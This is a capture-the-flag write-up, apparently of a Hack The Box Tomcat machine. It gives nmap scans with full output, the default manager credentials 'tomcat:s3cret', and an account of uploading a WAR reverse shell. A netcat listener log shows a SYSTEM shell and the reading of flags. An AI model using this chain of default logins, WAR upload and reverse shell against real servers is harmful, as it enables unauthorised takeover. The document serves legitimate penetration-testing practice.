







# Reconnaissance
In order to get a fast overview about open ports on the target machine, two nmap scans will be executed.

`nmap -sT -p- --min-rate 10000 -oA scans/nmap_tcp_ports 10.129.1.110`

-sT: TCP Connect() scan
-p-: scan all ports
--min-rate <number>: Send packets no slower than <number> per second
-oA <basename>: Output in the three major formats at once

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-17 19:19 CEST
Nmap scan report for 10.129.1.110
Host is up (0.038s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 22.08 seconds

```


`nmap -sU -p- --min-rate 10000 -oA scans/nmap_udp_ports 10.129.1.110`

-sU: UDP Scan
-p-: scan all ports
--min-rate <number>: Send packets no slower than <number> per second
-oA <basename>: Output in the three major formats at once

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-17 19:19 CEST
Nmap scan report for 10.129.1.110
Host is up (0.045s latency).
All 65535 scanned ports on 10.129.1.110 are open|filtered

Nmap done: 1 IP address (1 host up) scanned in 83.19 seconds

```


`nmap -sC -sV -p 8080 -oA scans/nmap_tcp_scripts 10.129.1.110`


```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-17 19:21 CEST
Nmap scan report for 10.129.1.110
Host is up (0.035s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.76 seconds

```


`nmap -sU -sC -sV -p  -oA scans/nmap_udp_scripts 10.129.1.110`


```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-17 19:29 CEST

```

# Enumeration
## Port 8080/tcp

`nmap -vv --reason -Pn -sV -p 8080 --script='banner,(http* or ssl*) and not (brute or broadcast or dos or external or http-slowloris* or fuzzer)' -oA scans/tcp_8080_nmap 10.129.1.110`


```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-17 19:32 CEST
NSE: Loaded 170 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 19:32
Completed NSE at 19:32, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 19:32
Completed NSE at 19:32, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 19:32
Completed NSE at 19:32, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 19:32
Completed Parallel DNS resolution of 1 host. at 19:32, 0.02s elapsed
Initiating SYN Stealth Scan at 19:32
Scanning 10.129.1.110 [1 port]
Discovered open port 8080/tcp on 10.129.1.110
Completed SYN Stealth Scan at 19:32, 0.10s elapsed (1 total ports)
Initiating Service scan at 19:32
Scanning 1 service on 10.129.1.110
Completed Service scan at 19:32, 6.08s elapsed (1 service on 1 host)
NSE: Script scanning 10.129.1.110.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 19:32
NSE Timing: About 98.37% done; ETC: 19:33 (0:00:01 remaining)
NSE Timing: About 99.35% done; ETC: 19:33 (0:00:00 remaining)
NSE Timing: About 99.67% done; ETC: 19:34 (0:00:00 remaining)
NSE Timing: About 99.67% done; ETC: 19:34 (0:00:00 remaining)
NSE Timing: About 99.67% done; ETC: 19:35 (0:00:00 remaining)
NSE Timing: About 99.67% done; ETC: 19:35 (0:00:01 remaining)
NSE Timing: About 99.67% done; ETC: 19:36 (0:00:01 remaining)
Completed NSE at 19:36, 235.66s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 19:36
Completed NSE at 19:36, 0.36s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 19:36
Completed NSE at 19:36, 0.00s elapsed
Nmap scan report for 10.129.1.110
Host is up, received user-set (0.050s latency).
Scanned at 2021-08-17 19:32:30 CEST for 242s

PORT     STATE SERVICE REASON          VERSION
8080/tcp open  http    syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
| http-auth-finder: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.129.1.110
|   url                                         method
|   http://10.129.1.110:8080/host-manager/html  HTTP: Basic
|   http://10.129.1.110:8080/manager/html       HTTP: Basic
|_  http://10.129.1.110:8080/manager/status     HTTP: Basic
|_http-chrono: Request times for /; avg: 685.59ms; min: 507.46ms; max: 927.59ms
| http-comments-displayer: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.129.1.110
|     
|     Path: http://10.129.1.110:8080/docs/RELEASE-NOTES.txt
|     Line number: 60
|     Comment: 
|         /**/
|     
|     Path: http://10.129.1.110:8080/docs/appdev/
|     Line number: 81
|     Comment: 
|         <!--APACHE LOGO-->
|     
|     Path: http://10.129.1.110:8080/docs/appdev/
|     Line number: 79
|     Comment: 
|         <!--PROJECT LOGO-->
|     
|     Path: http://10.129.1.110:8080/manager/status
|     Line number: 6
|     Comment: 
|         
|         
|         
|         
|         
|             -->
|     
|     Path: http://10.129.1.110:8080/docs/appdev/
|     Line number: 91
|     Comment: 
|         <!--()-->
|     
|     Path: http://10.129.1.110:8080/docs/jndi-datasource-examples-howto.html
|     Line number: 668
|     Comment: 
|         
|     
|     Path: http://10.129.1.110:8080/docs/appdev/
|     Line number: 145
|     Comment: 
|         <!--FOOTER SEPARATOR-->
|     
|     Path: http://10.129.1.110:8080/
|     Line number: 52
|     Comment: 
|         
|         
|                         -->
|     
|     Path: http://10.129.1.110:8080/docs/appdev/
|     Line number: 129
|     Comment: 
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|                       //-->
|     
|     Path: http://10.129.1.110:8080/docs/
|     Line number: 265
|     Comment: 
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|                       //-->
|     
|     Path: http://10.129.1.110:8080/docs/manager-howto.html
|     Line number: 1405
|     Comment: 
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|                       //-->
|     
|     Path: http://10.129.1.110:8080/docs/appdev/
|     Line number: 36
|     Comment: 
|         /* To prevent <pre>s from taking the complete available width. */
|     
|     Path: http://10.129.1.110:8080/docs/jndi-datasource-examples-howto.html
|     Line number: 669
|     Comment: 
|         
|     
|     Path: http://10.129.1.110:8080/docs/jndi-datasource-examples-howto.html
|     Line number: 713
|     Comment: 
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|                       //-->
|     
|     Path: http://10.129.1.110:8080/docs/appdev/
|     Line number: 79
|     Comment: 
|         <!--PAGE HEADER-->
|     
|     Path: http://10.129.1.110:8080/docs/realm-howto.html
|     Line number: 1263
|     Comment: 
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|                       //-->
|     
|     Path: http://10.129.1.110:8080/docs/jndi-datasource-examples-howto.html
|     Line number: 664
|     Comment: 
|         
|     
|     Path: http://10.129.1.110:8080/docs/appdev/
|     Line number: 145
|     Comment: 
|         
|     
|     Path: http://10.129.1.110:8080/docs/jndi-datasource-examples-howto.html
|     Line number: 663
|     Comment: 
|         
|     
|     Path: http://10.129.1.110:8080/docs/appdev/
|     Line number: 81
|     Comment: 
|         <!--RIGHT SIDE MAIN BODY-->
|     
|     Path: http://10.129.1.110:8080/docs/appdev/
|     Line number: 81
|     Comment: 
|         <!--HEADER SEPARATOR-->
|     
|     Path: http://10.129.1.110:8080/docs/jndi-datasource-examples-howto.html
|     Line number: 652
|     Comment: 
|         
|     
|     Path: http://10.129.1.110:8080/docs/jndi-datasource-examples-howto.html
|     Line number: 437
|     Comment: 
|         
|         
|     
|     Path: http://10.129.1.110:8080/docs/appdev/
|     Line number: 129
|     Comment: 
|         <!--//-->
|     
|     Path: http://10.129.1.110:8080/docs/security-howto.html
|     Line number: 570
|     Comment: 
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|                       //-->
|     
|     Path: http://10.129.1.110:8080/docs/setup.html
|     Line number: 246
|     Comment: 
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|         
|                       //-->
|     
|     Path: http://10.129.1.110:8080/docs/appdev/
|     Line number: 81
|     Comment: 
|         <!--LEFT SIDE NAVIGATION-->
|     
|     Path: http://10.129.1.110:8080/docs/appdev/
|     Line number: 37
|     Comment: 
|         
|         
|         
|         
|         
|           */
|     
|     Path: http://10.129.1.110:8080/docs/appdev/
|     Line number: 145
|     Comment: 
|         <!--PAGE FOOTER-->
|     
|     Path: http://10.129.1.110:8080/docs/appdev/
|     Line number: 14
|     Comment: 
|_        /* Prevent border-collapsing for table child elements like <div> */
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-date: Wed, 18 Aug 2021 00:32:52 GMT; +7h00m11s from local time.
| http-default-accounts: 
|   [Apache Tomcat] at /manager/html/
|     tomcat:s3cret
|   [Apache Tomcat Host Manager] at /host-manager/html/
|_    (no valid default credentials found)
|_http-devframework: Couldn't determine the underlying framework or CMS. Try increasing 'httpspider.maxpagecount' value to spider more pages.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-drupal-enum: Nothing found amongst the top 100 resources,use --script-args number=<number|all> for deeper analysis)
| http-enum: 
|   /examples/: Sample scripts
|   /manager/html/upload: Apache Tomcat (401 Unauthorized)
|   /manager/html: Apache Tomcat (401 Unauthorized)
|_  /docs/: Potentially interesting folder
|_http-errors: ERROR: Script execution failed (use -d to debug)
|_http-favicon: Apache Tomcat
|_http-feed: Couldn't find any feeds.
|_http-fetch: Please enter the complete path of the directory to save data in.
| http-grep: 
|   (2) http://10.129.1.110:8080/docs/realm-howto.html: 
|     (2) email: 
|       + j.jones@mycompany.com
|       + f.bloggs@mycompany.com
|   (1) http://10.129.1.110:8080/docs/appdev/: 
|     (1) email: 
|_      + craigmcc@apache.org
| http-headers: 
|   Server: Apache-Coyote/1.1
|   Content-Type: text/html;charset=ISO-8859-1
|   Transfer-Encoding: chunked
|   Date: Wed, 18 Aug 2021 00:32:50 GMT
|   Connection: close
|   
|_  (Request type: HEAD)
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
|_http-malware-host: Host appears to be clean
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-mobileversion-checker: No mobile version detected.
| http-php-version: Logo query returned unknown hash 58b1df487e9db66c251a453a81548d18
|_Credits query returned unknown hash 58b1df487e9db66c251a453a81548d18
|_http-referer-checker: Couldn't find any cross-domain scripts.
|_http-security-headers: 
|_http-server-header: Apache-Coyote/1.1
| http-sitemap-generator: 
|   Directory structure:
|     /
|       Other: 1; css: 1; ico: 1; png: 1
|     /docs/
|       Other: 1; html: 8; txt: 1
|     /docs/api/
|       html: 1
|     /docs/config/
|       Other: 1
|     /examples/
|       Other: 1
|   Longest directory structure:
|     Depth: 2
|     Dir: /docs/config/
|   Total files found (by extension):
|_    Other: 4; css: 1; html: 9; ico: 1; png: 1; txt: 1
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-title: Apache Tomcat/7.0.88
| http-useragent-tester: 
|   Status for browser useragent: 200
|   Allowed User Agents: 
|     Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)
|     libwww
|     lwp-trivial
|     libcurl-agent/1.0
|     PHP/
|     Python-urllib/2.5
|     GT::WWW
|     Snoopy
|     MFC_Tear_Sample
|     HTTP::Lite
|     PHPCrawl
|     URI::Fetch
|     Zend_Http_Client
|     http client
|     PECL::HTTP
|     Wget/1.13.4 (linux-gnu)
|_    WWW-Mechanize/1.34
| http-vhosts: 
|_128 names had status 200
| http-waf-detect: IDS/IPS/WAF detected:
|_10.129.1.110:8080/?p4yl04d3=<script>alert(document.cookie)</script>
|_http-wordpress-enum: Nothing found amongst the top 100 resources,use --script-args search-limit=<number|all> for deeper analysis)
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 19:36
Completed NSE at 19:36, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 19:36
Completed NSE at 19:36, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 19:36
Completed NSE at 19:36, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 243.22 seconds
           Raw packets sent: 1 (44B) | Rcvd: 1 (44B)

```

Clicking cancel at the user/password windows shows default credentials.


 Nmap found the same (see above)
 ```
| http-default-accounts: 
|   [Apache Tomcat] at /manager/html/
|     tomcat:s3cret
```


The default credentials entered in the user/password windows allows the log in



Now create a WAR reverse shell, upload and execute it:




Start a local `nc` session



The commands to get the user and root flag are pretty easy
```
└──╼ $nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.17.226] from (UNKNOWN) [10.129.1.110] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>cd c:\users
cd c:\users

c:\Users>cd Administrator
cd Administrator

c:\Users\Administrator>cd Desktop
cd Desktop

c:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of c:\Users\Administrator\Desktop

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:09 AM    <DIR>          flags
               0 File(s)              0 bytes
               3 Dir(s)  27,601,039,360 bytes free

c:\Users\Administrator\Desktop>cd flags
cd flags

c:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of c:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,601,039,360 bytes free

c:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004db**************************

root.txt
04a8b3**************************
c:\Users\Administrator\Desktop\flags>
```
